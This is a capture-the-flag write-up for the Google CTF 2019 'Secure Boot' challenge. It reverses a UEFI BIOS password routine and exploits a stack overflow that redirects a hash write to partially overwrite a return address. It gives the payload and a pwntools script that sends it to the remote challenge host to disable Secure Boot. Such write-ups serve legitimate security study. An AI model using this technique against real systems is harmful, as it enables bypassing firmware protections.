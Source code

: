 ```yaml
---
layout: post
category: Pwn
title: Google CTF Quals 2019 - Secure Boot
tags: 
    - kowu
---
```


# Challenge overwiew

A x86\_64 qemu challenge. However, this time it is about getting it to boot up...

```
.
├── contents
│   ├── boot.nsh
│   ├── bzImage
│   ├── rootfs.cpio.gz
│   └── startup.nsh
├── OVMF.fd
└── run.py
```

Running the challenge and doing nothing gives us the following output:

```
UEFI Interactive Shell v2.2
EDK II
UEFI v2.70 (EDK II, 0x00010000)
Mapping table
      FS0: Alias(s):HD1a1:;BLK3:
          PciRoot(0x0)/Pci(0x1,0x1)/Ata(0x0)/HD(1,MBR,0xBE1AFDFA,0x3F,0xFBFC1)
     BLK0: Alias(s):
          PciRoot(0x0)/Pci(0x1,0x0)/Floppy(0x0)
     BLK1: Alias(s):
          PciRoot(0x0)/Pci(0x1,0x0)/Floppy(0x1)
     BLK2: Alias(s):
          PciRoot(0x0)/Pci(0x1,0x1)/Ata(0x0)
     BLK4: Alias(s):
          PciRoot(0x0)/Pci(0x1,0x1)/Ata(0x0)

If Secure Boot is enabled it will verify kernel's integrity and
return 'Security Violation' in case of inconsistency.
Booting...
Script Error Status: Security Violation (line number 5)
```

And execution stops. However, if we enter the "BIOS" by hitting `del` or `F12` we are greeted with the following:

```
BdsDxe: loading Boot0000 "UiApp" from Fv(7CB8BDC9-F8EB-4F34-AAEA-3EE4AF6516A1)/FvFile(462CAA21-7614-4503-836E-8AB6F4662331)
BdsDxe: starting Boot0000 "UiApp" from Fv(7CB8BDC9-F8EB-4F34-AAEA-3EE4AF6516A1)/FvFile(462CAA21-7614-4503-836E-8AB6F4662331)
****************************
*                          *
*   Welcome to the BIOS!   *
*                          *
****************************

Password?
```

This is where the challenge starts.

# Pre-Reversing

First of all, I modified the run.py script and added the `-s` option to qemu (-s ia a shorthand to wait for gdb connections on port 1234). I also removed the `console=/dev/null` as I want to use the console later on.

Now we can run the challenge until we get to the password input prompt. Once reached, we attach radare2 to it with `r2 -D gdb gdb://localhost:1234`. Radare will stop the execution. As the program is expecting input from us, we are probably currently in some kind of input routine. A backtrace should lead us to the calling functions.

Printing a backtrace reveals the following:

```
:> dbt
0  0x7b30a41          sp: 0x0                 0    [??]  rip r13+8403169
1  0x7ec22c9          sp: 0x7ec16c8           32   [??]  rsp+3105 
2  0x7ec5f50          sp: 0x7ec1728           96   [??]  rsp+18600 
3  0x7ed2fe7          sp: 0x7ec1758           48   [??]  rsp+71999 
4  0x7ed30c9          sp: 0x7ec1778           32   [??]  rsp+72225 
5  0x67daf5e          sp: 0x7ec17c8           80   [??]  cr3+108896862 
6  0x7b90612          sp: 0x7ec1828           96   [??]  rip+392145 
7  0x67d4d34          sp: 0x7ec18b8           144  [??]  cr3+108871732 
8  0x7ec5f50          sp: 0x7ec18f8           64   [??]  rsp+18600 
9  0x7ec8317          sp: 0x7ec1958           96   [??]  rsp+27759 
10  0x7a7e577          sp: 0x7ec1a28           208  [??]  r13+7672855 
```

I now went through all the call frames and looked for something interesting (in search for the main loop).
At frame 5 I noticed the use of `0xdeadbeefdeadbeef` and frame 7 checks a functions result and and calls another function after loading the string "Blocked". Therefore I assumed `0x67dae50` to be our password check routine we are interested in.

```
0x067d4d2f      e81c610000     call 0x67dae50              ;[1]
0x067d4d34      84c0           test al, al
0x067d4d36      7511           jne 0x67d4d49
0x067d4d38      488d0d1fa100.  lea rcx, [0x067dee5e]       ; u"\nBlocked!\n"
0x067d4d3f      e8b976ffff     call 0x67cc3fd
```

To confirm this, I placed a breakpoint on the `test al, al` instruction (`db 0x67d4d34`) and, once the breakpoint was hit, manually modified the return value from zero to one (`dr rax=1`).
Continuing execution (`dc`) results in a BIOS menu where I could turn off secure boot and initiate a reboot with the new BIOS settings. As a result, the system would start up normally.

# Reversing

As I identified the password input routine, it's time for reversing (using IDA). First, I dumped the whole guest memory via the qemu monitor (press `ctrl+a` then `c` and dump using `dump-guest-memory`).
We get some decompiled and cleaned up pseudocode like this (left some details away for simplicity):

```c
int checkpasswd() {
    uint64_t *hashptr;
    char keybuffer[128];

    hashptr = malloc(32);
    for (int tries=0; tries <= 2; tries++) {
        int i=0;
        for(; i<140; i++) {
            char c = getc();
            if (c == '\r')
                break;
            keybuffer[i] = c;
            print("*");
        }
        keybuffer[i] = '\0';
        /* assumed because of magic constants */
        sha256(32, i, keybuffer, hashptr); 
        if (hashptr[0x00] == 0xdeadbeefdeadbeef &&
            hashptr[0x08] == 0xdeadbeefdeadbeef &&
            hashptr[0x10] == 0xdeadbeefdeadbeef &&
            hashptr[0x18] == oxdeadbeefdeadbeef)
            return 1;
        print("wrong!");
    }
    return 0;
}
```

So a classic stack based overflow (128B space vs. 141B usage). We overflow into the hashptr and therefore control where the 32Bytes of resulting hash are written to.
We can use this to bypass the login password check by partially overwriting our own return address.
So instead of returning to `0x67d4d34` we want to return to `0x67d4d49`, i.e. we need to change the first byte from `0x34` to `0x49`. The return address is located at `0x7ec18b8`, therefore we need to modify the hashptr to point to `0x7ec18b8 - 0x20 + 1 = 0x7ec1899`.
The payload for this looks like this:

```python
pl = "A" * 136 + struct.pack('<I', 0x07ec1899)
```

To overwrite the first byte of the return address with controlled data, one can bruteforce possible sha256 hashes.
During the ctf due to lazyness I just manually incremented the first char, as the possibility is > 1/256 to hit a valid bypass :)
I got a working payload quite fast this way.

```python
pl = "E" + "A" * 135 + struct.pack('<I', 0x07ec1899)
```

# Launching

We now have everything together to launch the exploit against the remote target.
The del keycode (0x7f) needs to be escaped (0x1b) and we need to wait some time before we can send it (therefore the recvn(1)).

```python
from pwn import *

r = remote('secureboot.ctfcompetition.com', 1337)

if __name__ == '__main__':
    r.recvn(1)
    r.send('\x1b\x7f')
    r.recvuntil('Password?')
    pl = "E" + "A" * 135 + struct.pack('<I', 0x07ec1899)
    r.send(pl + '\x0d')
    r.interactive()
```
launching with socat:
```
socat /dev/stdin,rawer "SYSTEM:python2 secureboot.py"
```
This will drop us into the BIOS options. There we need to deselect `Device Manager` -> `Secure Boot Configuration` -> `Attempt Secure Boot`. A reboot will start the machine and allows us to cat the flag.
